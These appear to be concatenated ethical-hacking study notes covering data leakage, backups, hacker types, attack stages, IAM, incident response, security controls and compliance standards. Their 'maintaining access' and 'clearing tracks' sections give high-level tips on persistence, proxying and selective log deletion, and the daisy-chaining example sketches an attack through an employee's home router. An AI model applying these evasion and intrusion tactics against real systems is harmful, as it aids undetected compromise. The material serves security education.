




# Data leakage, backup and recovery

## Data leakage

- Any sort of unauthorized disclosure of sensitive information from anyone/any system.
- Includes emails, malicious links, device theft etc.
- Data leakage leads to
  - loss of trust e.g. trust to governments decreased during late years
  - loss of profit e.g. Sony lost profit of their movies after [they were leaked](https://en.wikipedia.org/wiki/Sony_Pictures_hack) before publishing

### Data leakage threats

#### External threats

- Corporate espionage, phishing, malware
- Business partners, consultants when company outsources
  - Less surveillance than own employees.

#### Internal threats

- Also known as **insider threats**
- Dangers are greater than external threats as they'll have greater access to the company
- See also [insider attacks](./security-threats-and-attacks.md#insider-attacks)
- E.g. eavesdropping, shoulder surfing, [dumpster diving](./../10-social-engineering/social-engineering-types.md#dumpster-diving) can be used to acquire data.

## Data loss prevention

- Also known as **DLP**
- Identification and monitoring of important information that is not to be shared outside the organization.
- Can block, notify the sender or lets admins to analyze, react and report to sensitive data in transit.
- Important tool for enterprise message systems
- Uses different techniques of data access control
  - E.g. when e-mailing where content is scanned for fingerprints, classifications and bank account numbers.

## Data backup

- Process of making a duplicate copy of data that already exists.
- Protects against data loss and corruption as it can lead to great financial damages.
- No backup = Far more suspectable to all sorts of attacks, especially ransomware.

### Backup mediums

#### Magnetic tapes

- Oldest form, still used by many enterprises.
- Retention time: ≈30 years
- 📝 To pull anything off the tape, you have to fast-forward to wherever the correct file is stored
  - Good for restoring systems in one go.
  - Bad for incremental backups or storing a few files.
  - ❗ Only way to tell if backups are working is to fully restore from the tape and check if it's correctly restored.

#### Optical disks

- 2 to 3 times slower than hard drives
- Retention time: ≈25 years

#### Hard disks

- Cheaper, easily accessible
- Less stability than magnetic tapes
- Retention time: ≈9-20 years

#### SSD disks

- Includes also usb drives known as Flash storage or thumb-drive.
- Resistant to shock, temperature, being run through the washing machine
- Retention time: ≈10 years

#### Cloud storage

- Requires little infrastructure
- Depends on stable internet connection
- No retention time, high reliability

#### SD and micro-SD

- Little capacity and pricy.
- Retention time: ≈10 years

### Steps of data backup strategy

1. **Identify important data**
   - because backing-up everything is too costly and takes up much storage.
2. **Choose appropriate backup media**
   - Reliable, solid, preferably cheap
   - E.g. USBs or portable media for personal users, and HDD/SDDs for companies for more speed.
3. **Choose the appropriate backup strategy**
   - Check features such as scheduling, monitoring file changes to update back-ups, protocols, integrations...
   - Paid vs Free
     - Free requires more knowledge and work, training costs (one time)
       - E.g. in Linux, set cron job from point A to B
     - Paid versions has recurring license costs including training
4. **Choose appropriate RAID levels**
   - **RAID 1**
     - 2 disks
     - All that are written in disk A is also written to B, if one disk fails, other works
   - **RAID 5**
     - 3 disks
     - If A fails you can reconstruct based on data in B and C
   - RAIDing is not only for backups, can also use for faster read and writes
     - E.g. BIG = Everything is seen as one drive. File is written two all of them. Crazy write & read speeds. If single disk dies all data is gone.
5. **Choose the appropriate backup method**
   - **Cold backup**
     - Performed while system is not in use.
     - E.g. at nights, during weekends.
   - **Hot backup**
     - Performed when system is still used.
     - E.g. you type a document, power shortage happens but it's still saved.
   - **Warm backup**
     - Hybrid of the two.
     - Period backups while system is in use, but you might lose longer time period than hot backup.
6. **Choose the appropriate backup locations**
   - Three options:
     1. **On-site**: Same building / room
        - Susceptible to same types of problems like other servers.
        - If there's a breach, fire or earthquake = all data are gone
     2. **Off-site**: backup is performed at a remote location
     3. **Cloud**:
        - Most secure: most cost effective and safe where data won't be loss, no electricity, no hardware, no maintainable.
        - Can be replicated in same building, different buildings in same data center or different regions.
        - Can have privacy/trust issues: encrypt
7. **Choose the backup type**
   - **Full backup**: Costly, you back up everything
   - **Incremental backup**
     - Backs-up on each change of the previous back-up
     - When restoring, you need to restore everything from the first full back-up
   - **Differential backup**:
     - Back-ups on difference to the initial backup on each backup.s
     - Faster restoring time as you only need the last point and the initial full back-up
8. **Appropriate backup solution**: Combination of all of this
9. **Perform a recovery test**
   - Ensure you can recover a data that's lost with DR tests e.g. twice a year.
   - **Recovery drill**
     - Simulating data tier outage
     - Recovering
     - Validate application integrity post recovery

## Data recovery

- Recovering lost data
- Reasons
  - Accidental lost e.g. • natural disaster • corrupted data
  - Or can be intentionally destroyed
- DR stands for "Disaster Recovery"
- Most of data is recoverable but you can have recovery failure if backed up data becomes corrupt.
# Hacker types

## Hacker

- An individual who uses their computer and technical skills to gain access to systems and networks.
- 🤗 A common theory is that a hacker meant initially anyone who possessed skills and knowledge and determination to solve problems in a creative way.
  - There are arguments against it never was a benign term and the malicious connotations of the word were a later perversion is untrue.

## Black hat hackers

- 📝 Uses knowledge and skills to discover and exploit security vulnerabilities for financial gain or other malicious reasons
- Bad guys
- No regard of law & regulations etc.
- Activities include stealing personal and financial information or shutting down websites and networks
- E.g. bank robbing

## White hat hackers

- Also known as **ethical hackers**
- 📝 Uses knowledge and skills to improve a system's security by discovering vulnerabilities before black hats do.
- Will not break laws and regulations
- Scope is determined by the client
- E.g.
  - Publish vulnerabilities
  - Do penetration tests
  - ❗Participate in bounty programs to claim rewards.
    - Benefiting financially from hack is not illegal

### Ethical hacking

- Also known as white hat hacking
- Performed by security specialists to help companies identify vulnerabilities in their networks and systems.
  - Helps them analyzing and strengthening their system and network security
  - Allows for creating preventive measures that should prevent any future security breaches as well as protect data and information stored in the system.
- Difference from black-hat hacking:
  - Hacking with permission of system owner
  - They remain compliant to the law
  - Purpose is to prevent hackers from breaking into systems and networks.
- Flow
  1. Find vulnerabilities
  2. Assess problems & threats about them
  3. Offer solutions e.g. you can do to fix this
  4. Inform within the company
- Ethical hackers should ask themselves when evaluating a system: (also companies asks often "why would we fix it?" in three questions)
  - What is it that an attacker can see on this network/system?
  - What could the attacker do with that knowledge?
  - Are there any traces of attempted attacks on the system/network?

### Ethical hacking scope

- No test should be performed without appropriate permissions and authorization.
- Test results should be kept confidential
- Only those tests that the client requested should be performed

## Grey hat hackers

- Also known as ***grayhat***, ***gray hat***, ***gray-hat***, ***grey hat***, ***greyhat*** or ***grey-hat*** hackers.
- 📝 Might break laws, regulations and ethical standards but do not have explicitly malicious indent.
- Middleground; Not as bad as black, not as ethical as white hackers.

## Suicide hackers

- 📝 Perform attacks for a cause despite the risk of being caught and prosecuted.
- E.g. they'll know for sure that they'll get caught but they still attempt the hack for a "cause".

## Script kiddies

- 📝 Inexperienced hackers who don't have enough knowledge or skills to perform hacks on their own
  - Instead, they use tools and scripts developed by more experienced hackers.
- Dangerous because running the closed-sourced tools on one's own system is a big risk.

## Cyber terrorists

- Money is not the priority, but to destroy stuff.
- Influenced by religious or political beliefs.
- 📝 Goal is to promote fear, unrest and disruption.

## State sponsored hackers

- 📝 Recruited by governments
- Gain access to classified information of other governments
- Information source can be governments, individuals or corporations.

## Hacktivists

- 📝 Break into government and corporate systems out of protest.
- Promotes political or social agenda.
- E.g. steal and leak data on public domain
# Hacking stages

## 1. Reconnaissance

- Also known as **footprinting**, **fingerprinting** or **information gathering**
- 📝 Reconnaissance, *noun*, preliminary surveying or research about the target.
- 📝 Necessary first step as an attack would not be successful without it.

## 2. Scanning

- Hacker utilizes information from previous stage to conduct more technical scan.
- Often maps the routers and firewalls
- Use tools such as port scanners, network mappers, vulnerability scanners, etc.

### Reconnaissance vs Scanning

- In scanning you're acting on gathered information to gather information
- Examples

| [Reconnaissance](#1-reconnaissance) | [Scanning](#2-scanning) |
| ------ | ----- |
| Scan the perimeter network you need the IP addresses | Use e.g. `nmap` to figure out what the configuration is. |
| Get e-mails. | Use phishing to gather personal data |
| Learn where service physically are | Do dumpster diving |

## 3. Gaining Access

- Attack stage
- Steps:
  1. Find an entry point to the target OS or application on the system
  2. Use it to perform the attack
     - Hackers may escalate privileges to gain complete control over the system/network.
- Examples:
  - Password crack with brute-force or dictionary attack
  - Exploit buffer overflow
  - Session hijack
  - DoS attacks

## 4. Maintaining Access

- Keeping admin/root privileges so hacker can continue using the system.
  - After breaking into a system, you attempt to elevate privileges to do more.
- Maintain persistent access, because your connection might break, then you start again
- Can prevent other hackers from accessing the system by installing backdoors, rootkits, or trojans.
- 💡 You can install tools to give you persistance access and gathers data to use compromise more such as keylogger.
- 💡 You can use the machine as proxy so all traces are lead back to the proxy.
  - You can minimize the risks being discovered this way.
  - ❗ As pen-tester document those as you'll get other people in trouble

## 5. Clearing tracks

- Hackers do everything they can do to hide their activities
- Goal is to maintain the access to the system but remain unnoticed in the process.
  - If you're detected: the vulnerability will be patched and you'll lose access.
- Vital to clear all tracks as fast as possible, or if it's possible generate none.
- Activities:
  - Clear certain entries in log files: Not all, or it'll be suspicious
  - Masquerade your activities: Make them as similar as possible as legitimate activities
    - E.g. a good keylogger masquerade itself behind legitimate activities
      - Mimics other programs behavior by adding more behavior.
# Identity and access management (IAM)

- Ensures right users have access to right resources at right time
- Framework of best-practices used by organizations
- Main modules:
  1. **Access Management Module**: • Authentication • Authorization.
  2. **Identity Management Module**: Management of users and enterprise directory service components of IAM.

## IAM components

### Access management

#### Authentication

- Session Management
- Password Service

##### Single sign-on (SSO)

- Also known as ***single sign on***
- 📝 Allows one set of login credentials to be used to access multiple applications
- Centralized session and user authentication service
- Easier administration
- Benefits for users including remembering one password instead of many
- Many user authentication problems can be resolved at a central location at SSO point.

##### Multi-factor authentication (MFA)

- Authentication method that requires the user to provide two or more verification factors to gain access to a resource
- **Two-factor authentication (2FA)** is subset of MFA using two different factors
- 📝 Authentication factors include
  - **Knowledge** - something only the user knows
    - E.g. password or PIN
    - Vulnerable to recording user screen, e.g. [attack against PayPal](https://www.welivesecurity.com/2018/12/11/android-trojan-steals-money-paypal-accounts-2fa/)
  - **Possession** - something only the user has
    - E.g. smart cards, security token
    - Vulnerable to be cloned/copied
  - **Inherence** - something only the user is
    - E.g. biometrics (• fingerprint, face, voice, iris, retinal recognition • behavioral: keystroke dynamics)
      - **Retina**: Sending an intrusive close light to compare blood vessels
      - **Iris**: Mapping structures of iris using a camera.
    - Vulnerable to manually prompting users, e.g. [touch ID scams that targeted Apple devices](https://www.wired.com/story/iphone-touch-id-scam-apps/)
  - **Location**: somewhere the user is
    - E.g. based on network, known country
    - Vulnerable to proxies

##### One-time password (OTP)

- A password that's only used once and only valid for a limited of time-
- Enforces strong password authentication as it protects against someone getting access to password.
- Usually used when authenticating to VPN, and online Internet banking systems.

###### OTP Token

- Tool used to generate one-time passwords
- Can be a hardware device or software token installed on the computer or phone.
- Authenticating server use the same algorithm as token to be able to validate the code.
- 📝 **Token types**
  - **Synchronous Tokens**
    - **Clock-based tokens**
      - Also known as **Time-based tokens**
      - Tokens have same time configuration as the authenticating server.
      - Both use algorithms that are based on a time and a shared secret key.
    - **Counter-based tokens**
      - Both the token and the authenticating server maintain a counter.
      - Code consists of the value from the counter and a shared secret key.
      - Requires one or more actions from users (e.g. powering on or PIN number) to increment the counter.
  - **Asynchronous Tokens**
    - Also known as • **challenge-response tokens** • **challenge/response tokens**
    - Server sends a challenge (random value) to user and expects user to enter it.
    - Protects against replay attacks

#### Authorization

- Rule-based Authorization
- Attribute-based Authorization
- Remote Authorization

##### Role-based authorization

- Restricting system access to authorized users
- Can implement
  - **Mandatory access control** (MAC)
    - OS-enforced access control based on subject's clearance and object's labels
    - Assigns sensitivity labels to data and controls access by matching the user's security level to the resource label.
    - E.g. traditional Unix system of users, groups, and read-write-execute permissions
  - **Discretionary access control** (DAC)
    - Restricting access to objects based on the identity of subjects and/or groups to which they belong
    - Allows the data owner to set security permissions for the object
    - E.g. unix file mode which represent write, read, and execute in each of the 3 bits for each of User, Group and Others
    - E.g. on Windows, you can set sharing and permissions on files/folders you create
- RBAC vs MAC vs DAC
  | Access Control | User rights | Popular |
  | -------------- | ------------ | ------ |
  | **Discretionary** | Full control | OS file systems |
  | **Mandatory** | No control, policies are predefined by root/admin | OS file systems |
  | **Role based access** | No control, policies are predefined by root/admin | Cloud computing |

### Identity management

#### User management

- Delegated administration
- User and Role Management
- Provisioning
- Password Management
- Self-service
- **Compliance Auditing**
  - Conduct security audit for company to be compliant with policies/regulations

#### Enterprise directory service

- Central repository where all others components gets their data
- Includes
  - Directory service
  - Data synchronization
  - Metadirectory
  - Virtual directory
# Incident management

- 📝 Process of identifying, prioritizing and solving security incidents.
- Goal: Restore the system back to normal, trigger alerts to prevent any potential risks.
- 📝 Steps (flexible, not a strict rule):
  1. **Preparation for incident handling and response**
     - You know how you'll handle it when it happens.
     - Policies, trainings, tools, guidelines...
  2. **Detection and analysis**
     - Conduct in-depth analysis to what has happened: why, how, where, what
  3. **Categorization and prioritization**
  4. **Notification**
     - Notify proper people who are affected and who can act on it.
  5. **Containment**
     - Prevent the occurring incident from causing more damage.
     - E.g. put them in quarantine then we'll figure out what to do
  6. **Forensic investigation**
     - What happened, why?
  7. **Eradication**
     - Wipe the threat completely
  8. **Recovery**
     - Restore the system to working state
  9. **Post-incident activities** (lessons learnt)
     - Record what happened with final review.
     - Have discussion about how to avoid it in future.
- 🤗 E.g. a developer in [Dropbox miscoded](https://www.cnet.com/news/dropbox-confirms-security-glitch-no-password-required/) authentication function to always return true.
  - Anyone could login as whichever you user you want by just typing their e-mail.
  - They had review policy but no one paid attention.
  - They had protocols against major breach.
  - Realized that it was critical and then they brought down the service to prevent huge damage (containment)
  - Conducted investigation to see what has happened and started recovery process
  - It was recorded and documented for current and future employees

## Emergency response plan

- Help companies address various emergency situations that could occur within their organization.
- Should include who to contact, how to act in an emergency, how to mitigate risk and what resources to use to minimize loss

## Security incident and event management (SIEM)

- Real-time analysis of security alerts generated by network hardware and applications.
- Helps [SOC](#security-operations-center-soc) to perform its functions
- 📝 Combines SIM and SEM
  - **SIM (Security information management)**
    - Long-term storage as well as analysis and reporting of log data.
  - **SEM (Security event manager)**
    - Real-time monitoring
    - Correlation of events
    - Notifications and console views.
- E.g. [Splunk](https://www.splunk.com/) is the most popular SIEM.

### SIEM use-cases

- Anomaly detection could help detect zero-days, misconfigurations, cyberwarfare
- Automatic parsing, log normalization and categorization
- Visualization to help with pattern detection
- Detection of covert, malicious communications and encrypted channels.

### SIEM components

- **Aggregation**: Combining different log data
- **Correlation**: Using e.g. AI to bundle events with common attributes
- **Alerting**: Automated analysis of correlated events
- **Dashboards**: Helps to see anomalies
- **Compliance**: Can gather compliance data to produce reports that adopt to existing processes
- **Retention**: Critical in forensic investigations as network breach is high likely discovered after it happens.
- **Forensic analysis**: The ability to search across logs on different nodes and time periods based on specific criteria.

## Security teams

### Security Operations Center (SOC)

- Centralized function within an organization
- Continuously monitors and improves an organization's security posture
- Prevents, detects, analyzes, and responds to cybersecurity incidents.
- Uses [SIEM](#security-incident-and-event-management-siem) tool to perform its function

### Security Incident Response Team (SIRT)

- Also known as ***CSIRT (Computer Security Incident Response Team)*** or ***Computer Emergency Response Team (CERT)***
- Focuses on effective and quick incident response.
- Develops and refines the incident response plan.
- Typically receive threat intelligence from the [SOC](#security-operations-center-soc)
- 💡 SIRT should first check effort and potential impact of the incident when begin investigation and response process.
- There are also national CERT teams such as [US-CERT](https://en.wikipedia.org/wiki/United_States_Computer_Emergency_Readiness_Team) in USA, [CERT-SE](https://www.cert.se/) in Sweden and [TR-CERT](https://www.usom.gov.tr/) in Turkey.

### User Behavior Analytics (UBA)

- Monitoring user behavior in attempt to discover potential threats and attacks.
- When patterns are observed and normal is established, an admin can take a look at deviations.
- E.g. monitoring employee behavior against insider threats
- E.g. login attempts based on the location, monitoring access to privileged accounts.
# Information security controls overview

## Information Assurance (IA)

- Maintaining following of information during its use, storage, processing and transfer:
  - **Integrity**: No tampering of data from point A to point B, e.g. restraining physical access.
  - **Availability**: At all times data needs to be available to those who need it, e.g. stock market
  - **Confidentiality**: No leaks, e.g. ensuring policies are in-place
  - **Authenticity**: Only those who are authorized can access something
  - **Non-repudiation**: If you do something, you cannot say I did not do it, e.g. signatures, log files, camera videos.
- Processes to achieve information assurance are:
  - Security policies
  - Network and user authentication strategy
  - Identification of vulnerabilities and threats e.g. pen-testing
  - Identification of problems in the system and resource requirements
  - Plan design for the identified requirements
  - Certification and accreditation to find vulnerabilities and remove them
  - Training for employees

## Types of control

- By type
  - [**Physical controls**](./physical-security.md)
    - E.g. fences, doors, locks and fire extinguishers
  - **Technical controls**
    - Also known as ***logical controls***
    - E.g. security tokens
  - **Administrative controls**
    - E.g. security policies and continuity of operations plans are administrative control
- By function
  - **Preventative controls**
    - Prevents the threat from coming in contact with the weakness
    - E.g. authentication, encryption (such as [IPSec](./../15-cryptography/tunneling-protocols.md#ipsec))
  - **Detective controls**
    - Used after a discretionary event.
    - E.g. audits, alarm bells, alerts
  - **Corrective controls**
    - Put in place after the detective internal controls discover a problem
    - E.g. backups and restore

## Information Security Management Program

- All activities the organization takes to protect sensitive information
- E.g. security policies, rules, standards, business resilience, training and awareness, security metrics and reporting.

## Enterprise Information Security Architecture (EISA)

- Regulates organizations structure and behavior in terms of security, processes and employees.
- Includes requirements, process, principles and models
- Goals:
  - Real time monitoring of organization's network
  - Security breach detection and recovery
  - Ensuring cost efficiency of security provisions
  - Helping the IT department to function properly
    - e.g. with policies and education
  - Risk assessment of IT assets

### Security management framework

- To reduce risks of any system
  - Risks are never zero but you should reduce as much as u can
- Combination of policies, procedures, guidelines and standards

## Defense in Depth

- Also known as **defence in depth**
- 📝 Using multiple layers for protection
- Like a tower defence game
- Provides redundancy in the event a security control fails or a vulnerability is exploited
- Layers:
  1. **Policies, Procedures, Awareness**: Data Classification, Risk Management, Code Reviews, Educations...
  2. **Physical security**: ID cards, CCTV, fences...
     - Maintenance board should be protected in server room.
     - Not good in schools, universities etc.
  3. **Perimeter**: Encryption, identities...
     - In front of the internal network where traffic in and out is filtered.
  4. **Internal network**: Network zoning, firewalls...
  5. **Host**: Antivirus patches, security updates...
     - Individual devices with networking capability e.g. servers / PCs.
  6. **Services**: Audit logs, authentication, authorization, coding practices.
     - Applications running on hosts
  7. **Data**: Backups, encryption...
# Information security overview

## Information security

- Protecting information and information systems.
- Defines sets processes and activities performed in order to protect information.
- Goal is to prevent unauthorized users from stealing and misusing information or services.
  - If sensitive information falls in wrong hands, it may cause huge losses including
    - finances, brand reputations, customers.  

## Essential terms

### Hack value

- Hackers' evaluation of whether something is worth or interesting.
- High hack value examples
  - Accessing peoples credit card information as it can generate money.
  - Just accessing peoples names just to show a difficult task is doable.

### Vulnerability

- Weakness which can compromise the system and be used for a possible attack.
- E.g.
  - a policy
    - e.g. policy regulating whether a personal should stick in USB drives to computer laptops.
  - design/implementation errors
    - e.g. Linux + macOS + Windows are susceptible to a vulnerability where an USB drive that disguises as keyboard and have greater access on computer

### Exploit

- Breach through vulnerabilities.
- Also refers to a software that allows taking advantage of identified vulnerabilities.
- E.g. connecting a malicious USB.

### Payload

- Part of [malware](../07-malware/malware-overview.md) or exploit code.
- Used for e.g.
  - Creating [backdoor](./../07-malware/malware-overview.md#backdoor)s in victims machine
  - Damaging or deleting files
  - Committing data
  - Hijacking a computer
- E.g. a keylogger or a RAT (Remote Administration Tool) that a malicious USB installs.

### Zero day attack

- Also known as • ***zero-day attack*** • ***0-day attack*** • ***0 day attack***
- Exploiting previously unknown vulnerabilities before patch is released.
- **Zero day vulnerability**
  - Hole in software that is either [1]
    - Unknown to the one that's interested in mitigating in (e.g. vendor)
    - Known but patch has not been developed
  - Targeted attacks often include zero-day vulnerabilities [3]
  - ❗ A vulnerability is not zero day once it's disclosed and patched
- **Zero-day exploit**
  - Taking advantage of zero-day vulnerabilities
  - Often done by using malware [3]
- Flow
  1. Attacker discovers the vulnerability
  2. Attacker exploits vulnerability
  3. Attack happens (called day zero)
  4. Vendor learns about vulnerability
  5. Patch is created
     - Sometimes vendor may not patch it e.g. if software is outdated or has no support.
  6. Patch is applied
     - ❗ Sometimes they're not!
       - E.g. home routers has vulnerabilities that has been known for years as ISPs do not usually configure routers after setup
     - 💡 Time frame between patch is created and applied is used by malicious hackers to maximum extend.
       - Many times corporations are slower to react which causes harm.
- **Window of vulnerability (WOV)**
  - Time from vulnerability is discovered until most vulnerable systems are patched [1]
  - Often measured in days e.g. 28 days.
- E.g. [Spectre](./../06-system-hacking/escalating-privileges.md#spectre-vulnerability) & [Meltdown](./../06-system-hacking/escalating-privileges.md#meltdown-vulnerability)
  - Vulnerabilities in AMD and Intel CPUs
  - Can be exploited to elevate the privileges in the given system.
  - Still exists but no longer a zero day.
  - Affected all cloud providers, they needed to run firmware updates, updates provided by Intel that caused delays.

[1]: https://en.wikipedia.org/wiki/Zero-day_(computing)
[2]: https://us.norton.com/internetsecurity-emerging-threats-how-do-zero-day-vulnerabilities-work.html
[3]: https://blog.trendmicro.com/trendlabs-security-intelligence/common-misconceptions-it-admins-have-on-targeted-attacks/

### Daisy chaining

- An attack in which hackers gain access to one network/device and then using it to access next networks/devices.
- **Steps**
  1. Hackers gain access to a device within your system/network
     - e.g. smartwatch, refrigerator, PC.
  2. They move further by gaining access to next device in your network and then next and so on.
     - Potentially hacker  owns the network in the end.
- 🤗 **Example for hacking banks or similar**
  1. Go after person that has the most access.
  2. Hack that persons home router as attack vector.
     - Because it has the least resistance compared to corporate network.
       - Corporate network: has corporate firewalls, IT stuff, policies etc.
       - Home router: Rarely updated, full of vulnerabilities.
       - They usually run down-sized linux operating system.
     - An **attack vector** is a method or pathway used by a hacker to access or penetrate the target system.
  3. Scan devices that are connected to the router.
     - Can see communication (can be encrypted) but always sees ports, URLs, addresses being used.
     - E.g. mans PC, wifes PC, smart TV/refrigerator, his cell phone, wifes cell phone etc.
  4. Attack with different attack vector options:
     - Change the DNS settings, you can set yourself as DNS.
     - Put his computer to DMZ to expose his PC for access from outside world.
     - Apply phishing, exploits to the operating system of the devices.
     - Get access to one of the systems
       - E.g. an Android phone. They have many vulnerabilities.
         - They don't get updates after a while.
         - If they exceed design limits e.g. when operating when it's hot outside, then the hardware flaws occurring causes exploitable software attacks such as [Bitsquatting](https://en.wikipedia.org/wiki/Bitsquatting)
  5. Get access to
     - Information such as bank accounts, credit card details
     - After infecting one device, jump other devices in bank network if e.g. the mobile phone is also used in bank network.

### Doxing

- Finding and publishing someone's personally identifiable information (PII) for malicious reasons.
- E.g. an individuals name, e-mail address or sensitive data of an organization.
- E.g. confidential government files get leaked to the public.
- Steps
  1. Gather private and valuable information about a person/organization
     - E.g. photographs, SSN, social accounts, address...
     - Build a profile of target by learning more information e.g. through social media.
  2. Misuse collected information for different reasons.
     - E.g. identity theft, stealing financial information to use, coercing their target's into doing something they don't want to

### Bot

- Contraction of "robot"
- A software that can be controlled to execute predefined tasks.
- Used by hackers to control the infected machines for malicious reasons.
- Use-case
  - E.g. using a bot to control the computer and perform attacks on other computers
  - E.g. creating a botnet by infecting more machines

## CIA triad

- Also known as ***three principles of information security***
- Recognized widely as hearth (main focus) of information security
  - 
- Should function as as goals and objectives for every security program
- 📝 Ensures
  - [Confidentiality](#confidentiality): so no one can see what's inside.
  - [Integrity](#integrity): no one tampers data-in transit
  - [Availability](#availability): data is accessible on demand

## Elements of information security

### Confidentiality

- Ensures that information is available only to people who are authorized to access it.
- Improper data handling or a hacking attempt leads to confidentiality breaches.
- 💡 Controls: • encryption • classification • access control • proper disposal (e.g. of DVDs, CDs, etc.)

### Integrity

- Ensures the accuracy of the information
- Prevents improper and unauthorized changes—the
- 💡 Controls: • hashing • access control

### Availability

- Ensuring resources are available whenever the authorized user needs them
- 💡 Controls: • redundancy • data back-ups • antivirus • DDoS prevention

### Authenticity

- Ensures the quality of being genuine or uncorrupted, either:
  - **users** are actually who they present themselves to be through authentication
  - or a **document or information presented** is not corrupted.
- 💡 Controls: • users (biometrics) • smart cards • data ([digital certificates](./../15-cryptography/encrypting-communication.md#digital-certificate))

### Non-repudiation

- 📝 Guarantee that
  - sender of a message cannot deny having sent the message
  - recipient cannot deny having received the message
- 
- 💡 Controls: digital signatures, logging

## Functionality, usability, security triangle

- 
- Components
  - **Functionality**: the features of the system
  - **Usability**: GUI of the system and how user friendly it is.
  - **Security**: How the processes of the system are used and who is using them
- Interconnected
  - Any change made to one component directly affects decreases the other two.
  - E.g. if the system security is increased, then the functionality and usability of the system are decreased
    - Because of greater overhead of security with more checks or through greater examination.
  - 💡 Balance each and every one of them to get the desired levels of security, functionality, and usability.

## Document types

- **Standard**
  - Mandatory rules used to achieve consistency
- **Baseline**
  - Provide the minimum security level necessary.
- **Guideline**
  - Flexible, recommended actions users are to take in the event there is no standard to follow.
- **Procedure**
  - Detailed step-by-step instructions for accomplishing a task or goal
# Laws, standards, and regulations

## Legal systems

- Two main categories of legal systems in World. Many systems mix those:
  1. Common law
     - Unwritten laws based on legal precedents established by the courts.
     - E.g. USA, UK, India and Canada
     - Two main branches:
       - **Civil law (in common law)**
         - Between individuals, organizations, or between the two
         - Focuses on dispute resolution and victim compensation
       - **Criminal law**
         - Includes the punishment and rehabilitation
         - Proscribes conduct threatening, harmful, or otherwise endangering to the property, health, safety, and moral welfare of people inclusive of one's self
  2. Civil law
     - Codified statutes and legal codes predominate
     - E.g. majority of countries including Germany, France, Spain, Sweden, Turkey..

## PCI DSS

- Payment Card Industry Data Security Standard
- Applies to organizations that card payments and all entities involved in the process of card payment.
- Global data security standard
- Common sense steps presenting best security practices
- 📝 Requires tester to notify organization if cardholder data is accessed during a penetration test
  > "If cardholder data is accessed during the penetration test, it is important that the tester notify the organization immediately" [PCI DSS Guidance](https://www.pcisecuritystandards.org/documents/Penetration-Testing-Guidance-v1_1.pdf) recommends:
- See also the [official guide](https://www.pcisecuritystandards.org/documents/PCI_DSS_v3.pdf), or the [simpler version](https://www.pcisecuritystandards.org/documents/pci_ssc_quick_guide.pdf).

### PCI DSS Requirements

- Build and maintain a secure network
  - **(1)** Install and maintain a firewall
  - **(2)** Do not use vendor-supplied defaults for any security parameters (e.g. passwords)
- 📝 Protect cardholder data
  - **(3)** Protect stored data
    - Storing cardholder data is discouraged, but if stored it must be encrypted or hashed.
    - Never store sensitive data on the magnetic stripe or chip including PIN and CAV2 / CVC2 / CVV2 / CID.
  - **(4)** Encrypt transmission of cardholder data across public networks
- Maintain a vulnerability management program
  - **(5)** Use and regularly update anti-virus software
  - **(6)** Develop and maintain secure systems and applications
- 📝 Implement strong access control measures
  - **(7)** Restrict access to cardholder data by business need-to-know
  - **(8)** Assign a unique ID to each person with computer access
  - **(9)** Restrict physical access to cardholder data
    - Store media back-ups in a secure location, preferably off site.
    - Review and confirm that back-up media is secure at least annually.
- 📝 Regularly monitor and test networks
  - **(10)** Track and monitor all access to network resources and cardholder data
  - **(11)** Regularly test security systems and processes
    - **(11.1)** Test presence of wireless access points on a quarterly basis
    - **(11.2)** Network vulnerability scans at least quarterly and after any significant change
    - **(11.3)** Penetration testing at least once a year and after any significant change
- Maintain an information security policy
  - **(12)** Maintain a policy that addresses information security

## ISO/IEC 27000-series

- Set of worldwide information security standards
- Also known as ***ISMS Family of Standards*** or ***ISO27K***
- ISO/IEC stands for
  - "The International Standard for Standardization (ISO)"
  - and "The International Electrotechnical Commission (IEC)"

### ISO/IEC 27001:2013

- Titled as "Information technology - Security Techniques - Information security management systems — Requirements"
- Defines requirements for the organization's information security management system.
- Applies a risk management process
- Used
  - To create security requirements and objectives
  - To ensure the cost efficiency of managing the security risks
  - To ensure that laws and regulations are followed
  - For defining new information security processes
  - For identifying and clarifying existing information security processes.
